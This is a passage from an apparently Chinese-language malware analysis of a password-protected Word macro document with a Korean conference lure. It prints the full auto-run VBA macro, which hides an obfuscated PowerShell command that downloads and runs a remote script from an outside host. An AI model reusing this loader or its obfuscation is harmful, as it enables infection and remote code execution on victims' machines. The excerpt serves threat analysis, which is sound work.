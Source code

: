 

## 0x02 样本分析

### <a class="reference-link" name="doc%E6%A0%B7%E6%9C%AC%E5%88%86%E6%9E%90"></a>doc样本分析

原始样本md5为：772a5abc0e946230a50628db4a08dd80

上传VT的文件名为：학술회의 개최.doc<br>
译为：召开学术会议.doc

原始样本是一个带密码保护的office宏文档，和之前的一样，这里主要是解密执行一段Powershell代码：

[![](https://p4.ssl.qhimg.com/t016fded20e22ce77a4.png)](https://p4.ssl.qhimg.com/t016fded20e22ce77a4.png)

完整宏代码如下

```
Sub AutoOpen()
    asfwefsadfasfsadf
    dsfweqfasdfwqfsdaf
    asfwqfasfsdafas
    sdfqefsdafsadfwqefsadf
End Sub


Function dsfweqfasdfwqfsdaf()
    Dim qewrtredf(10) As String
    Dim vbNormalFocus As Integer
    vbNormalFocus = Right(Left("jfsklfkshsdf023jkjffkjfkjisfj23", 13), 1)
    qewrtredf(1) = "$+DC$+D:$+D\$+DW$+Di$+Dn$+Dd$+Do$+Dw$+Ds$+D\$+DS$+Dy$+Ds$+DW$+DO$+DW$+D$+D6$+D4$+D\$+DW$+Di$+Dn$+Dd$+Do$+Dw$+Ds$+DP$+Do$+Dw$+D$+De$+Dr$+DS$+Dh$+De$+Dl$+Dl$+D$+D\$+Dv$+D1$+D.$+D0$+D\$+Dp$+D$+Dow$+De$+Dr$+D$+Ds$+Dh$+De$+Dl$+Dl$+D.$+De$+Dx$+De$+D $+D-$+DW$+Di$+Dn$+Dd$+Do$+Dw$+DS$+Dt$+Dy$+Dl$+De"
    qewrtredf(2) = "$+D $+DH$+Di$+Dd$+Dd$+De$+Dn$+D $+D-$+Dc$+Do$+Dm$+Dm$+Da$+Dn$+Dd$+D $+D&amp;$+D`{`$+D[$+Ds$+Dt$+Dr$+Di$+Dn$+Dg$+D]$$+Da$+D"
    qewrtredf(3) = "=$+D`{`$+D($+DN$+De$+Dw$+D-$+DO$+Db$+Dj$+De$+Dc$+Dt$+D $+DN$+De$+Dt$+D.$+DW$+De$+Db$+DC$+Dl$+Di$+De$+Dn$+Dt$+D)$+D."
    qewrtredf(4) = "$+DD$+Do$+D($+D'h$+Dt$+Dt$+Dp$+D:$+D/$+D/$+Dg$+Do$+Dl$+Dd$+Db$+Di$+Dn$+D.$+Dm$+Dy$+Da$+Dr$+Dt$+Ds$+Do$+Dn$+Dl"
    qewrtredf(5) = "$+Di$+Dn$+De$+D.$+Dc$+Do$+Dm$+D/$+Dl$+De$+D/$+Dyj$+D.$+Dt$+Dx$+Dt'$+D)"
    qewrtredf(6) = "$+D`}`$+D;$+D$$+Db$+D=$+D$$+Da$+D.$+Di$+Dn$+Ds$+De$+Dr$+Dt$+D($+D2$+D9$+D,$+D'$+Dw$+Dn$+Dl$+Do$+Da$+Dd$+DS$+Dt$+D"
    qewrtredf(7) = "r$+Di$+Dn$+Dg$+D'$+D)$+D;$+D$$+Dc$+D=$+Di$+De$+Dx$+D $+D$$+Db$+D;$+Di$+De$+Dx$+D $+D$$+Dc$+D`}`"
    iefkdfknfk = qewrtredf
    wrewsdfdsfsad = Join(iefkdfknfk, "")
    wrewsdfdsfsad = Replace(wrewsdfdsfsad, "$+D", "")
    qwersdfjoi = Shell(wrewsdfdsfsad, vbNormalFocus)
End Function

Function asfwefsadfasfsadf()
  Selection.Delete Unit:=wdCharacter, Count:=1
End Function

Function asfwqfasfsdafas()
    Selection.WholeStory
    With Selection.Font
        .NameFarEast = "讣篮 绊雕"
        .NameAscii = ""
        .NameOther = ""
        .Name = ""
        .Hidden = False
    End With
```